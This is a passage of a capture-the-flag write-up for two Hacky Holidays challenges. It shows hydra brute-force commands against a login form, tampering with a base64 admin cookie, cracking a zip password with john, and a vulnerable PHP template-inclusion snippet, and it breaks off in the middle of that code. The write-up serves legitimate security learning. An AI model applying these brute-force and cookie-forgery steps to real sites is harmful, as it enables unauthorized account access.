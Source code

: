 ## Flag 5 Secure Login: flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}
The objective of this challenge is to find a way past the login page to get to the secret area. The challenge starts with a login page. Testing a random combination for the username and password field, an `Invalid Username` appears. This is an indicator, that we might be able to brute-force the username and password individually based on the error code. We first try to brute-force the username with: 
```
hydra -L ~/SecLists/Usernames/Names/names.txt -p pass hackyholidays.h1ctf.com https-post-form "/secure-login:username=^USER^&password=^PASS^:Invalid Username"
```
We receive the username:`access`. Given the username, trying a random password leads to the error response `Invalid Password`. We can brute-force the password using: 
```
hydra -l access -P ~/wordlists/rockyou.txt hackyholidays.h1ctf.com https-post-form "/secure-login:username=^USER^&password=^PASS^:Invalid Password"
```
We receive the password: `computer`. Logging in with the brute-forced credentials we land at a page with secure files where are `No Files To Download`. Investigating the response in Burp, we can notice the Cookie:
```
eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0%3D
```
Doing a base64-decoding on the cookie shows:
```
{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}7
```
We change the cookie to:
```
{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}
```
and encode it with base64 again:
```
eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQ==
```
With this we can see one file named `my_secure_files_not_for_you.zip`, which we can download locally (`wget https://hackyholidays.h1ctf.com/my_secure_files_not_for_you.zip`). Trying to unzip the file, a password is requested. We can crack this with john the ripper.
```
zip2john my_secure_files_not_for_you.zip > my_secure_files_not_for_you.txt
john my_secure_files_not_for_you.txt
```
John the ripper cracks the password, which is `hahahaha`. With the password, we can unzip the archive and retrieve the flag.

## Flag 6 My Diary: flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}
The objective of this challenge is to hack the Grinch's diary to find out about his upcoming event. Starting the challenge, we can directly recognize the path `my-diary/?template=entries.html`. It seems that the `entries.html` is included through the `template` parameter. It might also be possible to include other pages then. Through a bit of manual testing for some common pages, we can find `/template=index.php`, which presents the respective php code. 
```php
<?php
if( isset($_GET["template"])  ){
    $page = $_GET["template"];
    //remove non allowed characters
    $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
    //protect admin.php from being read
    $page = str_replace("admin.php","",$page);
    //I've changed the admin file to secretadmin.php for more security!
    $page = str_replace("secretadmin.php","",$page);
    //check file exists
    if( file_exists($page) ){
       echo file_get_contents($page);
```